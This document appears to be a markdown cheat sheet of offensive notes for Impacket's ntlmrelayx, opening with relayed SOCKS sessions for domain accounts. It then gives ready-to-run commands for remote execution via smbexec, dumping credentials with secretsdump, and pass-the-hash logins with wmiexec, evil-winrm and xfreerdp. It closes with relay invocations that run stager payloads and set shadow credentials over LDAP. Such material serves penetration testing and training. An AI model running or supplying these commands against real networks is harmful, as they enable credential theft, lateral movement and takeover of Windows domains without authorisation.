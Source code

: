 # Impacket NtlmRelayX

## Utilizing Sock sessions with Responder and NtlmRelayX

```console
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
MSSQL     172.21.48.230  FAERIE/ADMINISTRATOR      1433
MSSQL     172.21.48.230  FAERIE/ROOT               1433
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
SMTP      172.21.48.225  FAERIEEXCHANGE/SBURKE     25
SMTP      172.21.48.225  FAERIEEXCHANGE/TWILLIAMS  25
IMAP      172.21.48.225  FAERIEEXCHANGE/TMCFARLANE 143
```

## Testing Sock Access from NtlmRelayX: 
### SMB:
Using SMBExec:
- `proxychains4  impacket-smbexec SPAWN/MSIMMONS@172.21.48.38`
- `proxychains4  smbexec.py SPAWN/MSIMMONS@172.21.48.38`
Using Smbclient
- `proxychains4 impacket-smbclient SPAWN/MSIMMONS@172.21.48.38`
- `proxychains4 smbclient.py SPAWN/MSIMMONS@172.21.48.38`

### Secrets Dump
- `proxychains4  impacket-secretsdump SPAWN/MSIMMONS@172.21.48.38`
- `proxychains4  secretsdump.py SPAWN/MSIMMONS@172.21.48.38`

### Pass The Hash:
If you obtain hashes from ntlmrelayx you can use the ntlm hash to gain access to a target using the following scripts or tools: 

Impacket Wmiexec:
- `impacket-wmiexec -hashes ' INSERT HASH HERE' administrator@172.21.48.230`
- `wmiexec.py -hashes ' INSERT HASH HERE' administrator@172.21.48.230`

Evil-WinRM:
- `evil-winrm -u Administrator -H 'INSERT HASH HERE' -i 172.21.48.230`

XfreeRDP: 
- `xfreerdp /u:Administrator /pth:'INSERT HASH HERE' /v:172.21.48.230`

## Other NtlmRelayX Commands: 
### In Kali:
#### SMB
- `impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>`
- `impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c whoami`

#### Ldap
- `impacket-ntlmrelayx -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$`

### Python Impacket: 
#### SMB
- `ntlmrelayx.py -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>`
- `ntlmrelayx.py -tf smb-targets.txt -c whoami`

#### LDAP
- `ntlmrelayx.py -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$`

## References: 
- https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/
- https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0
- https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
- https://www.offsec-journey.com/post/attacking-ms-sql-servers